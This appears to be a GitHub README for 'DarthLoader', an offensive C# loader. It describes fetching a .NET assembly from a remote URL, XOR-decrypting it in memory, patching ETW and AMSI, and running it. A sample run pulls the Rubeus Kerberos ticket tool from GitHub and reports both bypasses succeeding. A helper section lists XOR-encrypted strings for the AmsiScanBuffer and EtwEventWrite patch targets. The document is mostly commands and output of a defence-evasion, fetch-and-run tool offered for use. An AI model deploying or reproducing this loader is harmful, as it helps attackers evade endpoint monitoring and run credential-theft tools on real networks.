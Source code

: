 # DarthLoader
This is a project heavily inspired by Jean-François Maes's [SANS  Workshop Reflection in C#](https://www.sans.org/webcasts/sans-workshop-reflection-in-c-/) to help (c)sharpen by C# dev skills. A lot of code was borrowed and/or extended for this project from:
- https://github.com/cobbr/SharpSploit/tree/master/SharpSploit/Evasion
- https://jfmaes-1.gitbook.io/reflection-workshop/
- StackOverflow

DarthLoader will do the following:
- Remotely fetch a .Net assembly from the web using a base64 encoded url and Xor the byte array in memory.
- Fetch a local .Net assembly into memory.
- Bypass ETW and AMSI by decrypting function strings at runtime via xor key being passed as cmdline arg.
- Decrypt and run the assembly from memory.

```
PS D:\SecToolDev\DarthLoader\DarthLoader\bin\x64\Release> .\DarthLoader.exe testing123 https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/Rubeus.exe test

 _______                     __     __       __                              __
|       \                   |  \   |  \     |  \                            |  \
| $$$$$$$\ ______   ______ _| $$_  | $$____ | $$      ______   ______   ____| $$ ______   ______
| $$  | $$|      \ /      |   $$ \ | $$    \| $$     /      \ |      \ /      $$/      \ /      \
| $$  | $$ \$$$$$$|  $$$$$$\$$$$$$ | $$$$$$$| $$    |  $$$$$$\ \$$$$$$|  $$$$$$|  $$$$$$|  $$$$$$\
| $$  | $$/      $| $$   \$$| $$ __| $$  | $| $$    | $$  | $$/      $| $$  | $| $$    $| $$   \$$
| $$__/ $|  $$$$$$| $$      | $$|  | $$  | $| $$____| $$__/ $|  $$$$$$| $$__| $| $$$$$$$| $$
| $$    $$\$$    $| $$       \$$  $| $$  | $| $$     \$$    $$\$$    $$\$$    $$\$$     | $$
 \$$$$$$$  \$$$$$$$\$$        \$$$$ \$$   \$$\$$$$$$$$\$$$$$$  \$$$$$$$ \$$$$$$$ \$$$$$$$\$$


[!] ETW bypassed!
[!] Amsi bypassed!
[*] Downloading and encrypting assembly with the key: test
[+] Encrypted assembly loaded into memory...
[+] Hit any key to run...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


 Ticket requests and renewals:

    Retrieve a TGT based on a user password/hash, optionally saving to a file or applying to the current logon session or a specific LUID:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/opsec]

    Retrieve a TGT based on a user password/hash, start a /netonly process, and to apply the ticket to the new process/logon session:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> /createnetonly:C:\Windows\System32\cmd.exe [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/opsec]


<-----SNIP----->
```

## DarthLoaderHelper
This project was made to help Xor encrypt the strings needed for passing into function calls to patch ETW/AMSI in Helpers.cs.  
```
D:\SecToolDev\DarthLoaderHelper.exe testing123

[+] Encrypting with key: testing123
[+] Encrypted string 'etwbypass': 11110416101E064241
[+] Encrypted string 'amsibypass': 1508001D0B1717504140
[+] Encrypted string 'ntdll.dll': 1A1117180540035D5E
[+] Encrypted string 'EtwEventWrite': 311104311F0B094565411D1116
[+] Encrypted string 'amsi.dll': 1508001D470A0B5D
[+] Encrypted string 'AmsiScanBuffer': 3508001D3A0D065F704612031606
```

## To-do
- [X] Help menu
- [X] Paramerize URL 
- [X] Add local file assembly loading and parameterize file path 
- [X] Paramerize assembly parameters
